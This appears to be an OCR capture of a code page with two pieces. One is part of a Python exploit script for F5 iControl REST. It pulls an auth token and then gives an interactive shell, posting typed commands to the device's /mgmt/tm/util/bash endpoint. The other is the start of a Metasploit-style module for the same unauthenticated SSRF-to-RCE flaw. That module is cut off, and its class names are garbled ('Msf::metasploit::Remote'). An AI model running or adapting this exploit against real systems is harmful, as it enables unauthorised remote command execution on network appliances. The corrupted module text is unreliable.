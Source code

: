 ```python
      if response2.status_code == 200 and 'commandResult' in response2.text:
        while True:
          cmd = input("(:CMD)> ")
          data_3 = {"command": "run", "utilCmdArgs": "-c '%s'"%(cmd)}
          r = requests.post(url=check_url, json=data_3, headers=header_2, verify=False)
          if r.status_code == 200 and 'commandResult' in r.text:
            print(r.text.split('commandResult":"')[1].split('"}')[0].replace('\\n', ''))
      else:
        print('(-) Not vuln...')
        exit(0)
    except Exception:
      print('ERROR Connect')
  print('(+) Extract token: %s'%(response.text.split('"selfLink":"https://localhost/mgmt/shared/authz/tokens/')[1].split('"}')[0]))
  while True:
    cmd = input("(:CMD)> ")
    headers = {
      "Content-Type": "application/json",
      "X-F5-Auth-Token": "%s"%(response.text.split('"selfLink":"https://localhost/mgmt/shared/authz/tokens/')[1].split('"}')[0])
    }
    data_json = {
      "command": "run", 
      "utilCmdArgs": "-c \'%s\'"%(cmd)
    }
    exp_url= url + '/mgmt/tm/util/bash'
    exp_req = requests.post(exp_url, headers=headers, json=data_json, verify=False, timeout=15)
    if exp_req.status_code == 200 and 'commandResult' in exp_req.text:
      print(exp_req.text.split('commandResult":"')[1].split('"}')[0].replace('\\n', ''))
    else:
      print('(-) Not vuln...')
      exit(0)

if __name__ == '__main__':
    title()
    if(len(sys.argv) < 2):
      print('[+] USAGE: python3 %s https://<target_url>\n'%(sys.argv[0]))
      exit(0)
    else:
      metasploit(sys.argv[1])
```

```python
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::metasploit::Remote

  Rank = ExcellentRanking

  prepend Msf::metasploit::Remote::AutoCheck
  include Msf::metasploit::Remote::HttpClient
  include Msf::metasploit::CmdStager

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'F5 iControl REST Unauthenticated SSRF Token Generation RCE',
        'Description' => %q{
          This module metasploits a pre-auth SSRF in the F5 iControl REST API's
          /mgmt/shared/authn/login endpoint to generate an X-F5-Auth-Token that
```